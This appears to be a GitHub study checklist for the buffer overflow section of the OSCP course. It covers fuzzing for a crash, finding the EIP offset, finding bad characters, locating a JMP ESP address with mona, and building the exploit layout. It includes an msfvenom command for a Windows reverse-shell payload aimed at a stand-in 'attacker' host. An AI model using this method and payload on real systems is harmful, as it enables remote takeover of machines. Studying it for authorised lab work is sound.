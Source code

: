 # OSCP Buffer Overflow for Dummies

The purpose of this text is to aid the BO part in the OSCP course in a structured way.


## Checklist

- [ ] Crash the application by sending a large amount of characters into a smaller buffer ( A good approach would be sending 100 characters and incrementing until a crash occurs )
- [ ] Identify the exact amount of characters required for crashing the application by creating a string with unique characters - Find the location of the EIP
```
msf-pattern_create -l { Ammount of characters to be generated }
```
- [ ] Locate space for the shellcode - After the EIP or Before it
- [ ] Find bad characters 
> **0x00** should always be excluded from the valid characters
- [ ] Find a JMP ESP instruction in the dll's ( JMP ESP opcode - **FFE4** )
> DEP and ASLR should be disabled
> There shouldn't be any bad characters in the base address of the modules
```
!mona find -s "\xff\xe4" -m {The module you chose}
```
- [ ] Change the EIP to the the JMP ESP instruction from the previous step
> Note that the format is Little Endian, therefore the address should be in reverse order: 0x10090c83 --> \x83\x0c\x09\x10
- [ ] Generate a shellcode 
```
msfvenom -l payloads
msfvenom -p windows/shell_reverse_tcp LHOST=attacker LPORT=attacker-port EXITFUNC=thread -f c -b "\x00\x0a\x26..." 
```
- [ ] Final exploit should look like: **filler + eip + offset + nops + shellcode**
> *Thanks for watching!*
